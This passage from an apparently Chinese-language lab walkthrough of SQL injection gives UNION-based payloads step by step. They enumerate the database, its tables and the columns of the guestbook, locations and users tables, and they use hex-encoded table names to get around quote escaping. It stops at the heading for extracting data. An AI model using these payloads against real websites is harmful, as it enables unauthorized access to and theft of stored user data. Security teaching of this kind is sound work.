   `1 union select 1,2#`

![image-20211101193028916](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950810.png)

- `database()`查询当前的数据库

  `1 union select 111,database()#`

![image-20211101193521930](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950309.png)

- 获取数据库中的table

  `1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![image-20211102214358646](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950231.png)



##### ④获取表中的column

- 获取guestbook表中的字段：

`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook'#`

![image-20211101194028724](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950529.png)

由于单引号`'`被转义成了`\`，所以该语句无法正常执行。可以通过把guestbook转成16进制的方法绕过：

`guestbook=0x6775657374626F6F6B`

`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6775657374626F6F6B#`

![image-20211101194421275](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950397.png)

成功显示了表中字段。

- 获取locations表中的字段：

`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6c6f636174696f6e73#`

![image-20211102214616710](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950601.png)



- 获取users表中的字段：

同理，将id改为`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273#`绕过转义：

![image-20211101194804475](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951663.png)



##### ⑤获得字段中的数据

- ###### guestbook表：
